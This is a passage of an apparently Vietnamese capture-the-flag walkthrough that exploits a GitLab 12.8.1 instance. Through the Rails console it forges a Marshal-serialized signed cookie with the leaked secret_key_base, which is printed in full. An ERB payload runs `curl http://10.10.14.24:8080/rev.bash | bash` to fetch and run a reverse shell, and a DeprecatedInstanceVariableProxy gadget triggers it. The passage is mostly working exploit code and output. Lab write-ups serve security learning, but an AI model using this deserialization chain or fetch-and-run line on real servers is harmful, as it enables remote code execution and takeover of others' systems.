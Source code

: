 ```powershell
root@55c5745c3e56:/# gitlab-rails console
--------------------------------------------------------------------------------
 GitLab:       12.8.1 (d18b43a5f5a) FOSS
 GitLab Shell: 11.0.0
 PostgreSQL:   10.12
--------------------------------------------------------------------------------
Loading production environment (Rails 6.0.2)
irb(main):001:0> request = ActionDispatch::Request.new(Rails.application.env_config)
=> #<ActionDispatch::Request:0x00007ff69e3917b8 @env={"action_dispatch.parameter_filter"=>[/token$/, /password/, /secret/, /key$/, /^body$/, /^description$/, /^note$/, /^text$/, /^title$/, :certificate, :encrypted_key, :hook, :import_url, :otp_attempt, :sentry_dsn, :trace, :variables, :content, :sharedSecret, /^((?-mix:client_secret|code|authentication_token|access_token|refresh_token))$/], "action_dispatch.redirect_filter"=>[], "action_dispatch.secret_key_base"=>"3231f54b33e0c1ce998113c083528460153b19542a70173b4458a21e845ffa33cc45ca7486fc8ebb6b2727cc02feea4c3adbe2cc7b65003510e4031e164137b3", "action_dispatch.show_exceptions"=>true, "action_dispatch.show_detailed_exceptions"=>false,
[..SNIP..]

irb(main):002:0> request.env["action_dispatch.cookies_serializer"] = :marshal
=> :marshal

irb(main):003:0> cookies = request.cookie_jar
=> #<ActionDispatch::Cookies::CookieJar:0x00007ff69eb70e98 @set_cookies={}, @delete_cookies={}, @request=#<ActionDispatch::Request:0x00007ff69e3917b8 @env={"action_dispatch.parameter_filter"=>[/token$/, /password/, /secret/, /key$/, /^body$/, /^description$/, /^note$/, /^text$/, /^title$/, :certificate, :encrypted_key, :hook, :import_url, :otp_attempt, :sentry_dsn, :trace, :variables, :content, :sharedSecret, /^((?-mix:client_secret|code|authentication_token|access_token|refresh_token))$/], "action_dispatch.redirect_filter"=>[], "action_dispatch.secret_key_base"=>"3231f54b33e0c1ce998113c083528460153b19542a70173b4458a21e845ffa33cc45ca7486fc8ebb6b2727cc02feea4c3adbe2cc7b65003510e4031e164137b3", "action_dispatch.show_exceptions"=>true, "action_dispatch.show_detailed_exceptions"=>false,
[..SNIP..]
```

Thiết lập tải trọng, Ban đầu khi tôi thực hiện hộp này, tôi đã gặp khó khăn khi gửi trực tiếp tải trọng trình bao ngược lại, vì vậy Ở đây tôi sẽ cuộn một tệp `rev.bash` có chứa trình bao ngược Python từ máy chủ Web của tôi và chuyển nó thành bash:

```ruby
irb(main):004:0> erb = ERB.new("<%= `curl http://10.10.14.24:8080/rev.bash | bash` %>")
=> #<ERB:0x00007ff699607498 @safe_level=nil, @src="#coding:UTF-8\n_erbout = +''; _erbout.<<(( `curl http://10.10.14.24:8080/rev.bash | bash` ).to_s); _erbout", @encoding=#<Encoding:UTF-8>, @frozen_string=nil, @filename=nil, @lineno=0>
```

Ở đây, hai lệnh tiếp theo sẽ cố gắng tìm nạp tệp và chạy chính tải trọng tại đây, vì vậy chúng ta không nên chạy máy chủ web trong khi thực hiện các lệnh này, Ngoài ra, trong trường hợp bạn đang gửi trực tiếp tải trọng shell ngược thì bạn không nên chạy trình nghe trong khi gửi các lệnh này lệnh:

```ruby
irb(main):005:0> depr = ActiveSupport::Deprecation::DeprecatedInstanceVariableProxy.new(erb, :result, "@result", ActiveSupport::Deprecation.new)
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0curl: (7) Failed to connect to 10.10.14.24 port 8080: Connection refused
=> ""

irb(main):006:0> cookies.signed[:cookie] = depr
DEPRECATION WARNING: @result is deprecated! Call result.is_a? instead of @result.is_a?. Args: [Hash] (called from irb_binding at (irb):7)
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0curl: (7) Failed to connect to 10.10.14.24 port 8080: Connection refused
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
```